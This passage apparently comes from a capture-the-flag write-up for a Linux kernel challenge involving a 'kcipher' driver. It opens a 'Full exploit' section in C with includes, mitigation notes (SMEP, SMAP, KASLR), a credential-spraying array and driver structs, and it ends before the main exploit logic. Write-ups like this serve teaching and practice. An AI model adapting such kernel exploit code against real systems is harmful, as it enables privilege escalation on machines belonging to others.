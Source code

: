 ```
} else {
    printf("failed to gain the flag\n");
}
```


### Full exploit

```
#include <stdio.h>
#include <sys/ioctl.h>
#include <stdint.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/fcntl.h>
#include <string.h>
#include <sys/xattr.h>
#include <assert.h>

#include <liburing.h>
#include <sys/capability.h>
#include <sys/syscall.h>

#include <sys/types.h>
#include <sys/shm.h>

// no-SMEP?, no-SMAP?, KASLR

#define N_CREDS 0xffff
int personalities[N_CREDS];


#define EXIT_ON_ERR(err_cond) \
    if (err_cond) { \
        perror("[***] " #err_cond); \
        exit(1); \
    }

void prompt();

int fd;
int cfd[10];

struct kcipher_req {
    int ciph_id;
    char byt;
};

struct kcipher {
    int ciph_id;
    int byt;
    uint64_t size;
    uint64_t str;
    uint64_t lock;
    char ciph[0x40];
};

#define display_kcipher(kciph_buf, kciph_name) \
    printf("[*] " #kciph_name "->ciph_id = 0x%x,\n", kciph_buf->ciph_id); \
    printf("[*] " #kciph_name "->byt = 0x%x,\n", kciph_buf->byt); \
    printf("[*] " #kciph_name "->size = 0x%llx,\n", kciph_buf->size); \
    printf("[*] " #kciph_name "->str = 0x%llx\n", kciph_buf->str); 

void xor(char* p, char byt, size_t size);
```